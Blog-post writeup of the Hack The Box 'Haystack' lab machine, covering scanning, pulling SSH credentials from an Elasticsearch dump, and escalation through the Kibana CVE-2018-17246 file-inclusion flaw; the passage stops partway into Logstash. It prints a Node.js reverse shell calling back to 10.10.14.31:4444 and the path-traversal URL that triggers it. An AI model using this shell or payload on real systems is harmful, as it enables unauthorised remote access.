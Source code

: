```yaml
---
layout: post
title: HTB - Haystack Writeup
date: 2019-11-07
image: '/images/posts/htb/haystack/haystack.jpg'
categories: ["writeups"]
tags: ["writeups", "haystack", "htb"]
---
```


* Box: Haystack
  - Difficulty: Easy
  - Points: 20
  - Release: 29 Jun 2019
  - IP: 10.10.10.115


###Initial Enumeration

####1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA haystack.nmap 10.10.10.115`

<img src="/images/posts/htb/haystack/haystack1.jpg">

The port scan shows ports 22, 80, 9200 are open.
Just from the scan we can identify that port 80 has **text/html** as its context-type whereas port 9200 has **application/json**. This can point towards some kind of API running as API's usually return with **json**.

Loading up the website we see:

<img src="/images/posts/htb/haystack/haystack2.jpg">

In the meantime, we will run a gobuster scan to find any more directories:

####2. Gobuster Scanning

``gobuster dir -u https://10.10.10.7/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -k``

The scan doesn't find anything interesting.

Next I move to the image in the webpage. I run some basic steganography tools but nothing comes up. That is until I run **strings** on the image and search for a base64 string.

We spot the line of code that looks like base64 so let's throw that into a decoder and see the output.
We get the line ``"la aguja en el pajar es "clave"`` and when we enter that into google translate we get ``the needle in the haystack is "key"``

Next we'll move over to port 9200 which is Elasticsearch.
Visiting the webpage we can see the source code tells us the version is **6.4.2**.

After a quick search of exploits for this version we see the following tool used to dump the elasticsearch database.

https://github.com/taskrabbit/elasticsearch-dump

We candump indices by using the below command:

``curl http://10.10.10.115:9200/_cat/indices?v -s``

We can see 2 indices named **quotes** and **bank** so let's use the elasticdump tool and investigate further.

Based on the below output we generate a dump and we can analyze it by running the **cat** command and using **grep** to find particular keywords.

I start with the word **haystack** and we get the output "There's a needle in this haystack, you have to serach for it" which leads us to believe this is the correct step and to investigate deeper.

The last words of the quotes is a base64 string. Again, let's decode it and see the output:
They look to be credentials:

``User: security``
``Pass: spanish.is.key``

We can use these credentials to SSH in and get the user flag which is located at **/home/security/user.txt**


###Privilege Escalation

Now that we know we are working on an **ELK** stack we can look at the running processes to see **kibana** and **logstash** are running.

Since kibana is run internally, we can port forward it with the below command:

``ssh security@10.10.10.115 -L 5601:127.0.0.1:5601``

We load up the browser and see the Kibana version is **6.4.2**. A quick google search comes up with the following LFI exploit:

We can that it’s running kibana 6.4.2 . A quick google search gets us to CVE-2018–17246.
[CVE-2018-17246](https://github.com/mpgn/CVE-2018-17246)

We can simply make a reverse shell using this JavaScript shell from: https://wiremask.eu/writeups/reverse-shell-on-a-nodejs-application/

I'm going to go ahead and save that in the tmp folder on the kibana server.

``
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(4444, "10.10.14.31", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
``

We then want to navigate to the below in the browser. We should see the listener get a connection back as the user **kibana**

``http://127.0.0.1:9000/api/console/api_server?sense_version=%40%40SENSE_VERSION&apis=../../../../../../../../../../tmp/shell``

Then you can run ``python -c 'import pty;pty.spawn("/bin/bash")'`` to upgrade to a Python shell.


After running LinEnum.sh we see **logstash** mentioned a few times. Since this box deals with ELK stack we can take a look into **Logstash** to see if there is anything of interest.

In **/etc/logstash**, we find a directory called **conf.d** which holds some key Logstash config files.

The three config files do the following:

I read into Logstash and how it uses these three configuration files.

- input.conf determines the conditions of the input file that Logstash will act on.
- filter.conf defines a regex that matches the contents of the input file.
- output.conf determines what actions will be taken on the input file

